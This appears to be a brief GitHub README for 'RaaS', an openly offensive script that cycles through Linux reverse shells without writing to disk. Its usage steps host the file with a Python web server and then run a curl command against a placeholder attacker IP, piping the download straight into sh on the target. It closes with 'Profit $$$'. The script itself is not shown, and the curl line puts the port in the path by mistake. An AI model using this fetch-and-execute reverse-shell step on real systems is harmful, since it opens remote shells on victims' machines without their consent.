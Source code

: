 # RaaS
Reverse shell as a Service script that tries all the different reverse shells on Linux systems without touching the disk.

# Usage
1. Host the file on your system
   $ python3 -m http.server 8080

2. Grab the file using Curl and pipe it to bash
   $ curl http://<attacker ip>/8080|sh

3. Profit $$$
